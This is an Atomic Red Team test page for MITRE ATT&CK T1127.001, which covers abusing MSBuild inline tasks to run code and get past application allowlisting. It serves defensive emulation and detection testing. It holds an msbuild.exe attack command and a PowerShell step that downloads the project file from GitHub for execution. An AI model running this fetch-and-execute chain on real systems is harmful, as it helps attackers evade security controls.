 # T1127.001 - MSBuild
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1127.001)
<blockquote>Adversaries may use MSBuild to proxy execution of code through a trusted Windows utility. MSBuild.exe (Microsoft Build Engine) is a software build platform used by Visual Studio. It handles XML formatted project files that define requirements for loading and building various platforms and configurations.(Citation: MSDN MSBuild)

Adversaries can abuse MSBuild to proxy execution of malicious code. The inline task capability of MSBuild that was introduced in .NET version 4 allows for C# code to be inserted into an XML project file.(Citation: MSDN MSBuild) MSBuild will compile and execute the inline task. MSBuild.exe is a signed Microsoft binary, so when it is used this way it can execute arbitrary code and bypass application whitelisting defenses that are configured to allow MSBuild.exe execution.(Citation: LOLBAS Msbuild)</blockquote>

## Atomic Tests

- [Atomic Test #1 - MSBuild Bypass Using Inline Tasks](#atomic-test-1---msbuild-bypass-using-inline-tasks)


<br/>

## Atomic Test #1 - MSBuild Bypass Using Inline Tasks
Executes the code in a project file using. C# Example

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Location of the project file | Path | PathToAtomicsFolder&#92;T1127.001&#92;src&#92;T1127.001.csproj|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe #{filename}
```




#### Dependencies:  Run with `powershell`!
##### Description: Project file must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{filename}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1127.001/src/T1127.001.csproj" -OutFile "#{filename}"
```




<br/>
